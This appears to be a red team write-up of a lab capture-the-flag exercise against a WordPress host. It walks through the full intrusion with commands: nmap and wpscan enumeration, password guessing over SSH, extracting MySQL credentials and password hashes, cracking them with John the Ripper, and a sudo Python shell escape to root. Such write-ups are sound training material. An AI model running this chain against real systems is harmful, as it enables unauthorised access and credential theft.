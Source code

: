 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  1. **PORT ENUMERATION** (Severity: MEDIUM)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. **WEAK PASSWORD POLICY** (Severity HIGH)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. **MISCONFIGURED WEBSITE** (Severity: HIGH)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. **PYTHON ESCALATION** (Severity: MEDIUM-HIGH)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*
    - **Exploit Used**
    	1. WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`.


<img src="/Images/wpscan-users.png">
<img src="/Images/Flag1.png">

	2. Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    	- Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
    	- Password: *michael*
 	3. SSH in as Michael traversing through directories and files.
    		- Flag 1 found in var/www/html folder at root in service.html in an HTML comment below the footer.
    		- Commands:
        		- `ssh michael@192.168.1.110`
        		- `pw: michael`
        		- `cd /var/www/html`
        		- `ls -l`
        		- `nano service.html`
  -  **flag2.txt**: *fc3fd58dcdad9ab23faca6e9a3e581c*
    - **Exploit Used**
      - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

      	  	- Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">